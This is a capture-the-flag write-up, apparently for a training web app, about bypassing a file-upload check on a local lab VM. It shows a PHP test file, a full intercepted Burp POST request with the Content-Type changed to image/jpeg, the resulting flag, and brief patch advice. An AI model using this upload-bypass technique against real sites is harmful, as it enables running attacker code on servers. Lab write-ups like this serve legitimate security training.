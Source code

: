 # B09-UploadInsecure-Upload

## BREACH

PATH `http://192.168.56.110/?page=upload`

For this breach, we have an input where we can upload files.

Upload file can be exploit by hacker because if some check are not done properly user can upload some code that can be executed.

Here we can, Send a `php` file with `Burpsuite`, intercept our `POST` to update the Content-type to `image/jpeg`

```
┌─[✗]─[user@parrot]─[~]
└──╼ $touch random.php
┌─[✗]─[user@parrot]─[~]
└──╼ $echo '<?php phpinfo(); ?>' > random.php
```

Now we can send it and intercept the request with `Burpsuite`

```
POST /?page=upload HTTP/1.1
Host: 192.168.56.110
Content-Length: 420
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.56.110
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryeKgO7ExyLYAXBwy9
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.110 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.56.110/?page=upload
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: I_am_admin=68934a3e9455fa72420237eb05902327
Connection: close

------WebKitFormBoundaryeKgO7ExyLYAXBwy9
Content-Disposition: form-data; name="MAX_FILE_SIZE"

100000
------WebKitFormBoundaryeKgO7ExyLYAXBwy9
Content-Disposition: form-data; name="uploaded"; filename="random.php"
Content-Type: application/x-php

<?php phpinfo(); ?>

------WebKitFormBoundaryeKgO7ExyLYAXBwy9
Content-Disposition: form-data; name="Upload"

Upload
------WebKitFormBoundaryeKgO7ExyLYAXBwy9--
```

We change the `Content-Type`

```
Content-Type: image/jpeg
```

We get the flag

```
THE FLAG IS : 46910D9CE35B385885A9F7E2B336249D622F29B267A1771FBACF52133BEDDBA8
```

## PATCH

To patch this you need to absolutely prevent user to pass something unexpected. So need to allowed just useful file not everything, and with that never accept a filename without accept filter. 

Beside this, the content of the file need to be checked. 

All special caractere need to be filtered

You can also limit the upload size